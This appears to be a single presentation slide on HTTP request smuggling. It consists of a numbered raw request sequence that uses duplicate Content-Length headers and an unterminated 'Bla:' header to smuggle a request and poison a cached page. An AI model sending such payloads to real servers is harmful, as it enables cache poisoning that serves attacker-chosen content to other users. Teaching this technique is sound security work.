

# HTTP Request Smuggling
1   POST http://SITE/foobar.html HTTP/1.1
2   Host: SITE
3   Connection: Keep-Alive
4   Content-Type: application/x-www-form-urlencoded
5   Content-Length: 0
6   Content-Length: 44
7   [CRLF]
8   GET /poison.html HTTP/1.1
9   Host: SITE
10  Bla: [space after the "Bla:", but no CRLF]
11  GET http://SITE/page_to_poison.html HTTP/1.1
12  Host: SITE
13  Connection: Keep-Alive
14  [CRLF]